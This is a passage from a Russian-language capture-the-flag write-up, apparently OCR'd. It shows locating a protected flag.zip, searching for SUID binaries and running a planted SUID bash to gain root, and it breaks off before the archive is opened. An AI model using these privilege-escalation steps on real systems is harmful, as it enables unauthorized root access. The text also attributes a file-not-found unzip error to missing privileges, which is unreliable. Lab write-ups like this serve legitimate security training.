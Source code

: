 ```bash
ls /home/user1/ctf
```

Вывод:

```
flag.zip
```

Пытаемся разархивировать файл:

```bash
unzip flag.zip
```

Однако получаем ошибку доступа:

```
unzip: cannot find or open flag.zip, flag.zip.zip or flag.zip.ZIP.
```

Причина в недостаточных привилегиях для пользователя. Нужно искать способ повысить права до root.

---

## Шаг 2) Повышение привилегий до root через SUID

Находим SUID-бинарный файл, который позволяет повысить привилегии до root. Проверяем наличие SUID-бинарников:

```bash
find / -perm -4000 2>/dev/null
```

В списке видим бинарный файл `/usr/local/bin/suidbash`, на который установлен SUID-бит:

```
/usr/local/bin/suidbash
```

Запускаем этот файл, чтобы стать root:

```bash
/usr/local/bin/suidbash
```

Теперь у нас привилегии root. Проверяем текущего пользователя:

```bash
whoami
```

Вывод:

```
root
```

---

## Шаг 3) Попытка разархивировать архив от имени root
